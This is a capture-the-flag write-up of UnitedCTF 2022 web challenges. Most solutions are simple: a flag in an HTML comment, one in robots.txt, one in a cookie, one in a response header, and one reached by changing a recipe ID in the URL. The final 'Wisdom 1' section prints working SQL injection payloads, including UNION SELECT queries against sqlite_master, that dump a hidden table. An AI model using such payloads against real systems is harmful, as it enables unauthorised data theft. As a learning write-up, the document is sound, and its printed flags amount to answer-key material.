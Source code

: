 ```yaml
---
layout: post
title: UnitedCTF 2022 Writeup - Web
date: 2022-10-08
type: post
tags:
- Writeup
- Hacking
- UnitedCTF
- CTF
permalink: /2022/10/UnitedCTF/Web
img: 2022/10/UnitedCTF/UnitedCTFLogo.png
---
```


![Challenges](/assets/images/2022/10/UnitedCTF/Web/Web.png "Challenges")

## Information à la source

![Information à la source](/assets/images/2022/10/UnitedCTF/Web/InformationALaSource.png "Information à la source")


```
Vous avez vu que la page d'accueil semble encore en construction. La compagnie laisse peut-être trainer ses secrets?

http://coca-cola.ctf.unitedctf.ca/
```

Author: [Deimos](https://github.com/amDeimos666)

The description of the challenge talks about the page being in construction. And that it might still have some secrets.

I launched a browser and opened the challenge page.

![Site](/assets/images/2022/10/UnitedCTF/Web/Site.png "Site"){:width="75%"}

The site was very simple. I looked at the source code and the flag was in a comment.

```html
<!-- TODO : FLAG-H4CK1N9-C0C4-C0lA-->
```

Flag: FLAG-H4CK1N9-C0C4-C0lA

## Un site bien caché

![Un site bien caché](/assets/images/2022/10/UnitedCTF/Web/UnSiteBienCache.png "Un site bien caché")

```
Le site semble bien protégé, il est introuvable lorsqu'on le cherche avec un moteur de recherche.

http://coca-cola.ctf.unitedctf.ca/
```

Author: [Deimos](https://github.com/amDeimos666)

The description says that search engines can't find the site. That immediately points to a `robots.txt` file. I opened `http://coca-cola.ctf.unitedctf.ca/robots.txt` and it contained the flag.

```
# FLAG-f0R-hum4n-0n1y

User-agent: *
Disallow: /
```

Flag: FLAG-f0R-hum4n-0n1y

## La recette secrète

![La recette secrète](/assets/images/2022/10/UnitedCTF/Web/LaRecetteSecrete.png "La recette secrète")

```
Bien que vos accès sont restreints vous donnant seulement accès aux recettes en cours de développement, vous avez accepté d’aider le SCRS à soutirer de l’information sur la recette originale de coke. Il vous reste maintenant à acquérir cette information…


http://coca-cola.ctf.unitedctf.ca/
```

Author: [Deimos](https://github.com/amDeimos666)

This one talks about recipes. It says we only have access to the recipes that are being developed. But we need to find the original recipe.

![Recettes](/assets/images/2022/10/UnitedCTF/Web/Recettes.png "Recettes")

There are two recipes on the site. This is their URLs:
* http://coca-cola.ctf.unitedctf.ca/recette/2
* http://coca-cola.ctf.unitedctf.ca/recette/3

We have recipes 2 and 3. What about recipe 1? I navigate to http://coca-cola.ctf.unitedctf.ca/recette/1 .

![Recette 1](/assets/images/2022/10/UnitedCTF/Web/Recipe1.png "Recette 1")

Flag: FLAG-F0R-Y0UR-3Y35-0N1Y

## Un biscuit avec ça?

![Un biscuit avec ça?](/assets/images/2022/10/UnitedCTF/Web/UnBiscuitAvecCa.png "Un biscuit avec ça?")

```
Une personne vous a dit qu'un secret est dans les cookies, c'est presque comme les biscuits chinois.


http://coca-cola.ctf.unitedctf.ca/
```

Author: [Deimos](https://github.com/amDeimos666)

The description for this one talks about cookies. I opened the dev tools and looked at the site's cookies.

![Cookies](/assets/images/2022/10/UnitedCTF/Web/Cookies.png "Cookies")

Flag: FLAG-N0-F00D-H3R3

## Secret en tête

![Secret en tête](/assets/images/2022/10/UnitedCTF/Web/SecretEnTete.png "Secret en tête")

```
Une personne ayant aussi de la difficulté avec l’administration a accepter de vous aider en vous donnant accès à un super secret. À l'acceuil, elle vous a répondu qu'elle avait de l'information en tête à donner.


http://coca-cola.ctf.unitedctf.ca/
```

Author: [Deimos](https://github.com/amDeimos666)

The description talks about headers, so I opened Burp and checked the header in the site response.

```http
HTTP/1.1 304 Not Modified
x-powered-by: Express
super-secret: FLAG-N0-M0R3-53CR3T
set-cookie: Secret here=FLAG-N0-F00D-H3R3; Path=/
etag: W/"5f8-pico+SlyZ/xyQxzJvO6Z5SUqOXs"
date: Mon, 03 Oct 2022 22:59:05 GMT
keep-alive: timeout=5
connection: close
```

Flag: FLAG-N0-M0R3-53CR3T

## Wisdom 1

![Wisdom 1](/assets/images/2022/10/UnitedCTF/Web/Wisdom1.png "Wisdom 1")

```
Did you check my website? It offers a way to search for inspirational quotes, I hope there's nothing wrong with it, but on the off chance that you might find anything, please be kind and let me know what you found :)

⚠️Note: If you find a flag that doesn't work for Wisdom 1, then it's probably the flag for Wisdom 2, and vice versa.


http://wisdom.ctf.unitedctf.ca/
```

Author: [hfz](https://github.com/hfz1337)

![Site](/assets/images/2022/10/UnitedCTF/Web/SiteWidom1.png "Site")

The site allows searching for quotes.

I tried basic SQL Injections in the search field. Sending `' or 1 = 1 -- -` returned all the quotes.

Next, I tried to use `order by` to find out how many columns the query returned `' or 1 = 1 Order By 1 -- -`. It returned 2 columns.

I kept experimenting and found out it was using SQLite.

I extracted the list of tables in the database.

```sql
aaa' Union Select name, sql from sqlite_master -- -
```

```sql
“CREATE TABLE my_s3cr3t_7abl3 (flag text)” - my_s3cr3t_7abl3

“CREATE TABLE quotes (author text, quote text)” - quotes
```

And then read the flag.

```
aaa' Union Select 1, flag from my_s3cr3t_7abl3 -- -
```

```
“FLAG-th4nk$_f0r_1nj3ct1ng_th3_v4x” - 1
```

Flag: FLAG-th4nk$_f0r_1nj3ct1ng_th3_v4x
